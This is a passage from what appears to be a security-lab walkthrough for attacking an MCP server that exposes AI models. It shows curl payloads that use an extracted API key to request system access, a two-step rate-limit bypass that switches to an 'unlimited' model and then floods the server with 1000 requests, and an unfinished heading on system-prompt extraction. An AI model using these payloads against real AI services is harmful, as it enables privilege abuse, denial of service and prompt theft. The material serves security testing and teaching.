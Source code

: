 ```bash
            "api_key": "EXTRACTED_KEY",
            "capabilities": {
                "system_access": true
            }
        }
    },
    "id": "6"
}'
```

### 4. Rate Limit Bypass

Exploit rate limits through model switching:

```bash
# Step 1: Switch to unlimited model
curl -X POST http://localhost:5000/mcp \
-H "Content-Type: application/json" \
-d '{
    "jsonrpc": "2.0",
    "method": "tools_call",
    "params": {
        "tool_name": "switch_model",
        "parameters": {
            "target_model": "gpt-4",
            "capabilities": {
                "rate_limit": "unlimited"
            }
        }
    },
    "id": "7"
}'

# Step 2: Flood requests
for i in {1..1000}; do
    curl -X POST http://localhost:5000/mcp \
    -H "Content-Type: application/json" \
    -d '{
        "jsonrpc": "2.0",
        "method": "prompts_generate",
        "params": {
            "prompt": "Test request"
        },
        "id": "'$i'"
    }'
done
```

### 5. System Prompt Extraction

Extract system prompts through context manipulation:
